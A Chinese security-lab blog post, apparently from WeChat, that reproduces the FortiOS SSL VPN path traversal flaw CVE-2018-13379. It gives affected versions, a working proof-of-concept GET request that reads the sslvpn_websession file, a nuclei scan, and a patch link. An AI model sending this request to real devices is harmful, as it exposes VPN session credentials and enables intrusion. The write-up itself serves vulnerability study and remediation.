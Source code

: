 #  Fortinet FortiOS 目录遍历漏洞(CVE-2018-13379)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#网络安全 25 个

#CVE 23 个

#漏洞 40 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](https://gitee.com/fuli009/images/raw/master/public/20230616190602.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](https://gitee.com/fuli009/images/raw/master/public/20230616190602.png)  
 **0x01漏洞介绍**  
  

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。

Fortinet FortiOS 5.6.3版本至5.6.7版本和6.0.0版本至6.0.4版本中的SSL VPN
Web门户存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

![](https://gitee.com/fuli009/images/raw/master/public/20230616190602.png)  
 **0x02影响版本**  
  

  Fortinet FortiOS 5.6.3版本至5.6.7版本和6.0.0版本至6.0.4版本

![]()

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230616190602.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](https://gitee.com/fuli009/images/raw/master/public/20230616190606.png)

2.对漏洞进行复现

 **Poc  **

  *   *   *   *   *   *   * 

    
    
    GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36Connection: closeAccept: */*Accept-Language: enAccept-Encoding: gzip, deflate

  

复现请求

![](https://gitee.com/fuli009/images/raw/master/public/20230616190607.png)

  

3.nuclei工具测试（漏洞存在）

![](https://gitee.com/fuli009/images/raw/master/public/20230616190608.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230616190602.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://fortiguard.com/psirt/FG-IR-18-384

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230616190611.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](https://gitee.com/fuli009/images/raw/master/public/20230616190612.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

